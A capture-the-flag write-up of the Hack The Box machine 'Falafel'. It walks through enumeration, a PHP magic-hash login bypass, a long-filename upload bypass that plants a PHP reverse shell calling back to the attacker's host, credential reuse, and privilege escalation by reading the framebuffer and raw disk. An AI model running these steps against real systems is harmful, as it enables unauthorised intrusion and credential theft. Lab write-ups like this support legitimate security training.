



Falafel Writeup
My writeup of the Hack the box Falafel.
Let’s kick things off with the general purpose portscan using NMAP.
root@kali:~/Falafel$ nmap -p- -T4 -Pn 10.10.10.73
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-21 09:59 CEST
Nmap scan report for falafel.htb (10.10.10.73)
Host is up (0.078s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 387.79 seconds
So SSH(22) and Web(80) are both open, so we are dealing with a web server. Lets enumerate the versions.
root@kali:~/Falafel$ nmap -p22,80 -sV --version-all -Pn 10.10.10.73
[..snip..]
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[..snip..]
As well perform a banner grab using Netcat
root@kali:~/Falafel$ nc 10.10.10.73 80
GET / HTTP/1.1
HTTP/1.1 400 Bad Request
Date: Thu, 21 Jun 2018 15:12:43 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 303
Connection: close
Content-Type: text/html; charset=iso-8859-1
Cool, so we are dealing with a web server enumerated and verified the version. Doing a quick check with searchsploit yielded no result, except a user enumeration for OpenSSH Users. Nothing that is extremely interesting for us. Since we don’t have a user or password, lets check out the webserver on port 80. Before actually browse to the webpage, lets start a gobuster session to find any hidden directories and files (txt and php).
root@kali:~/Falafel$ gobuster -u http://10.10.10.73 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -x .txt,.php
Now I preface that I use Firefox, and run the connection through Burpsuite Proxy, as you never know what you might pick up. Running the connection through Burpsuite has some other benefits as well, like recording all the requests or automatic spidering.
Browsing to falafel we see two things, user and domain IT@falafel.htb, and “Login” which does sound interesting.

Checking the sourcecode does not reveal anything interesting. So lets go back to our gobuster session.
Gobuster v1.4.1 OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.73/
[+] Threads : 50
[+] Wordlist : /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes : 301,302,307,200,204
[+] Extensions : .txt,.php
=====================================================
/profile.php (Status: 302)
/uploads (Status: 301)
/upload.php (Status: 302)
/cyberlaw.txt (Status: 200)
/connection.php (Status: 200)
[..snip uninteressting stuff..]
=====================================================
At this point we can make some assumptions on the results.
/connection.php - usually exists when there’s a database server backend
/cyberlaw.txt - contains some interesting usernames; admin, lawyers, devs and chris. But also that the uploads form is vulnerable.
/uploads.php - Apparently vulnerable, but is protected by a login form.
So with that information, the next step is to try and bypass the login form.
Generally start with trying some simple SQL Injection techniques, since we did see the /connection.php. As well as scouring stackoverflow for php auth bypasses. None of that worked, so googling continues, when I did find a writeup on Magic Hashes from WhiteHat Security1 (Interesting research, I recommend a read through). So what we’ll use is a simple hash collision.
Supplying username=admin&password=240610708 to the /login.php site will result in a Login Successful!
And now we are presented with /upload.php which from previous information stated, is vulnerable to some kind of file upload bypass. Another assumption is that files uploaded through this form is also added to /uploads/ found with gobuster.

Seeing that the upload form cannot browse a file to upload, but rather specify a URL we can start a simple http webserver with python.
root@kali:~/Falafel$ python -m SimpleHTTPServer 3999
Serving HTTP on 0.0.0.0 port 3999 ...
Seeing that it requests an image to be uploaded. I reckon that’s the first thing I should try, in order to see if it presents me with a link to my uploaded file.
Uploading http://10.10.14.7:3999/viking.png I get presented with this output.
CMD: cd /var/www/html/uploads/0621-1924_63b0bd5de1c81bcd; wget 'http://10.10.14.7:3999/viking.png'
--2018-06-21 19:24:49-- http://10.10.14.7:3999/viking.png
Connecting to 10.10.14.7:3999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8889 (8.7K) [image/png]
Saving to: 'viking.png'
0K ........ 100% 19.1M=0s
2018-06-21 19:24:49 (19.1 MB/s) - 'viking.png' saved [8889/8889]
Cool so that is using a tool we should recognize, wget. It also echoes out the folder it saves the image to. A simple browse to http://10.10.10.73/uploads/0621-1924_63b0bd5de1c81bcd/viking.png should then present us with the image.

So it gives us both the folder name where it is saved and also we have access to it… Since it is running a php backend, lets try and upload a reverse shell.
root@kali:~/Falafel$ cp /usr/share/webshells/php/php-reverse-shell.php ./sb.php
root@kali:~/Falafel$ sed -i -e 's/127.0.0.1/10.10.14.7/g' sb.php
root@kali:~/Falafel$ sed -i -e 's/$port = 1234;/$port = 4000;/g' sb.php
Having set the ip and port of my kali box, we should also put up something to catch the shell with netcat.
root@kali:~/Falafel$ nc -lvvp 4000
listening on [any] 4000 ...
Trying to upload sb.php using a URL, I get the response:
Something bad happened: Bad extension Specify a URL of an image to upload:
Running through OWASP’s Guide to bypass filtered uploads2, Didn’t really give anything either. So again after some googling, I had the idea that since the upload form is using wget to fetch files. Then maybe supplying a filename longer then linux can handle, maybe we can get it to “cut off” the picture file ending.
Popping over to UnixStackExchange3, we get to know that a linux filename can be 255 characters long. So maybe if I find a filename that is long enough, that might cause an overflow, thus removing all characters over the limit.
So I tested with a 245 character long filename, and the response was:
Upload Succsesful!
Output:
CMD: cd /var/www/html/uploads/0621-2200_805b0c016de450a8; wget 'http://10.10.14.7:3999/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.png'
The name is too long, 245 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[..snip..]
So now we can see that supplying a 232 character long filename like
root@kali:~/Falafel$ python -c "print 'A'*232 + '.php' + '.jpg'"
Containing our php code and a ‘GIF89’ at the beginning, will using the ‘.jpg’ bypass the image filter, but the script will shorted and cut out the last 4 characters, leaving the file names as 'A'*232 + '.php'.
So taking my sb.php reverse shell, and renaming it to the convention
CMD: cd /var/www/html/uploads/0621-2211_287036c71d5619df; wget 'http://10.10.14.7:3999/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.jpg'
The name is too long, 240 chars total.
Trying to shorten...
[..snip..]
2018-06-21 22:11:25 (338 MB/s) - 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php' saved [3466/3466]
[..snip..]
Now doing a curl to will trigger the backdoor and kick back a shell.
root@kali:~/Falafel$ curl http://10.10.10.73/uploads/0621-2211_287036c71d5619df/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
root@kali:~/Falafel$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.7] from falafel.htb [10.10.10.73] 47088
Linux falafel 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
22:15:33 up 3 days, 17:54, 1 user, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
yossi tty1 Mon04 3days 0.05s 0.04s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ bash -i
www-data@falafel:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@falafel:/$
Now that worked fairly terrific! Remember /connection.php that where discovered earlier, lets have a look into that one.
www-data@falafel:/var/www/html$ cat connection.php
<?php
define('DB_SERVER', 'localhost:3306');
define('DB_USERNAME', 'moshe');
define('DB_PASSWORD', 'falafel[snip]');
define('DB_DATABASE', 'falafel');
[..snip..]
?>
www-data@falafel:/var/www/html$
Nice DB Creds. Well maybe they are reusing that password?
root@kali:~/Falafel$ ssh moshe@10.10.10.73
moshe@10.10.10.73's password: falafel[snip]
$ bash -i
moshe@falafel:~$ id
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
moshe@falafel:~$ ls -alsh user.txt
4.0K -r-------- 1 moshe moshe 33 Nov 27 2017 user.txt
moshe@falafel:~$
That takes care of the user flag. Time for some further enumeration as user:moshe. Now that we have a ssh shell, lets see whats stored in the DB.
mysql -u moshe -p
Enter password: falafel[snip]
[..snip..]
mysql> use falafel
Database changed
mysql> select * from users;
+----+----------+----------------------------------+--------+
| ID | username | password | role |
+----+----------+----------------------------------+--------+
| 1 | admin | 0e462096931906507119562988736854 | admin |
| 2 | chris | d4ee02a22fc872e36d9e3751ba72ddc8 | normal |
+----+----------+----------------------------------+--------+
mysql>exit;
moshe@falafel:~$
Hash cracking time, favourite time!… Which didn’t yield any good results. So back to enumeration. checking groups you can see that there was some non-default assigned to moshe
moshe@falafel:~$ cat /etc/group|grep video
video:x:44:moshe
moshe@falafel:~$
Now video is an interesting group, according to Ubuntu Wiki4 The "video" group can access /dev/fb0 which is a framebuffer.
So with that in mind we can run some simple commands and capture the image from fb0. But to be able to convert it into a image we also need the resolution of fb0.
moshe@falafel:~$ cat /dev/fb0 > /tmp/sb.raw
moshe@falafel:~$ cat /sys/class/graphics/fb0/virtual_size
1176,885
moshe@falafel:~$
Using SCP or your own preference in transferring the image to your own Kali, the script iraw2png.pl5 can be used to convert the “raw” image to a viewable png. which gets us the user:yossi password.
ssh yossi@10.10.10.73
yossi@10.10.10.73's password: Moshe[..snip..]
yossi@falafel:~$ cat /etc/group | grep disk
disk:x:6:yossi
yossi@falafel:~$
Again we see that yossi is in an interesting group “disk” gives the permission for users in the group to read contents of /dev/sdX.
yossi@falafel:~$ ls /dev/sda*
/dev/sda /dev/sda1 /dev/sda2 /dev/sda5
yossi@falafel:~$ strings /dev/sda5 | grep root.txt
[..snip..]
echo "EatSleepPwnRepeat" > root.txt
[..snip..]
yossi@falafel:~$
This was a really interesting box!
Done!